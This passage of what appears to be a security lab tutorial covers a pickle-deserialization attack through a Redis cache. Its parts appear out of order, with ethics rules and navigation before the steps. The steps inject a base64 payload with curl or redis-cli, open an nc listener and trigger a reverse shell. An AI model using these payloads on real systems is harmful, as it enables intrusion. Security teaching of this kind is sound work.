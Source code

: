 - ❌ Never test production systems without authorization
- ❌ Never access others' data without permission
- ❌ Never disrupt services or destroy data
- ❌ Never use these techniques for malicious purposes

---

[← Previous: Vulnerability Analysis](lab-05-test-vulns.md) | [Back to Lab Overview](lab-overview.md)
print(base64.b64encode(payload).decode())
```

Replace `YOUR_IP` with your actual IP address.

#### 2. Run the Payload Generator

```bash
python3 malicious_pickle.py
```

Copy the base64 output.

#### 3. Inject into Redis Cache

Find an endpoint that caches user data:

```bash
# Example: If the app caches resume data
curl -X POST http://localhost:8080/upload \
  -F "resume=@evil.txt" \
  -F "user_id=admin"
```

Or directly inject into Redis (if accessible):

```bash
redis-cli -h localhost set "cache:user:admin" "YOUR_BASE64_PAYLOAD"
```

#### 4. Set Up Listener

Before triggering the payload, set up a netcat listener:

```bash
# Terminal 1: Start listener
nc -lvnp 4444
```

#### 5. Trigger the Payload

Access the endpoint that retrieves cached data:

```bash
# Terminal 2: Trigger deserialization
curl http://localhost:8080/profile/admin
```

If successful, you should get a shell in Terminal 1!
